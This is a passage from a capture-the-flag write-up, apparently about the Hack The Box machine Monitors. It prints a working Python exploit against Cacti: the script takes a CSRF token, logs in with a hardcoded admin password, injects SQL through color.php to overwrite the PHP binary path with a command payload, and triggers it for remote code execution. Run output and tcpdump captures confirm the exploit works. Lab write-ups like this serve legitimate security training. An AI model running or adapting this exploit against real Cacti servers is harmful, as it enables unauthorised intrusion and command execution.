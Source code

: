     # get CSRF
    resp = sess.get("http://cacti-admin.monitors.htb/cacti/index.php")
    csrf = re.search(r"csrfMagicToken='(.*)'", resp.text).group(1)
    print(f"Got CSRF: {csrf}")

    # login
    resp = sess.post("http://cacti-admin.monitors.htb/cacti/index.php",
            data = {
                '__csrf_magic':   csrf,
                'action':         'login',
                'login_username': 'admin',
                'login_password': 'BestAdministrator@2020!',
                })

    print(f"[+] Logged in with cookie: {sess.cookies['Cacti']}")

    # upload command
    resp = sess.get(f"http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='{payload}'+where+name='path_php_binary';--+-")

    # trigger
    resp = sess.get("http://cacti-admin.monitors.htb/cacti/host.php?action=reindex")



Because I do that in a clean session each time, the trigger works each
time. For example, changing the `ping` command to `-c 2`:



    oxdf@parrot$ python3 rce.py 'ping -c 2 10.10.14.7'
    [+] Got CSRF: sid:7977064a20e40e119ef70c83e5b45122c75688bb,1619176652;ip:3f4eb84c44fb6969f0c21b517d000b79ddae3d2e,1619176652
    [+] Logged in with cookie: h6a28jimfsuaaef2h123csat2o
    [+] Uploaded payload
    [+] Triggered payload



There are two pings at `tcpdump`:



    07:17:32.695990 IP monitors.htb > 10.10.14.7: ICMP echo request, id 6432, seq 1, length 64
    07:17:32.696070 IP 10.10.14.7 > monitors.htb: ICMP echo reply, id 6432, seq 1, length 64
    07:17:33.697849 IP monitors.htb > 10.10.14.7: ICMP echo request, id 6432, seq 2, length 64
    07:17:33.697895 IP 10.10.14.7 > monitors.htb: ICMP echo reply, id 6432, seq 2, length 64



### Shell
